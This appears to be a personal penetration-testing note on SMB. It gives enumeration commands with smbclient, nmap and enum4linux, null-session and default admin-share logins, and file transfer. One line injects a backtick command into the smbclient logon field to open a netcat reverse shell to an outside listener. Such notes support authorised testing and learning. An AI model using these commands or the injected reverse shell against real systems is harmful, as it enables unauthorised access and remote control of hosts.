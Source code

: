 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[SMB]]  
___

## Description:  

**To see which shares are available on a given host, run:


```
impacket-smbclient user@10.10.110.5

smbclient -L //192.168.101.11/


sudo nmap --script smb-enum-shares 192.168.101.11

sudo nmap --script smb-enum-* 192.168.101.11

enum4linux -S 192.168.101.11

sudo nmap --script smb* 192.168.93.40

```

**Null login:

`kolby@kali:~/Desktop/openVPN$ smbclient //192.168.101.11/ITDEPT -U '' -N
Try "help" to get a list of possible commands.


**Try common shares if you cannot list them:

```
smbclient //192.168.93.40/ipc$
smbclient //192.168.93.40/c$
smbclient //192.168.93.40/admin$

```


**to put a file on the share:

`put test.txt

**To get a file:

`get example.txt

**Reverse shells:

`logon “/=`nc 192.168.49.101 4444 -e /bin/bash`"


**Hosting a smb share
 
`impacket-smbserver public .



___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (01:56 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
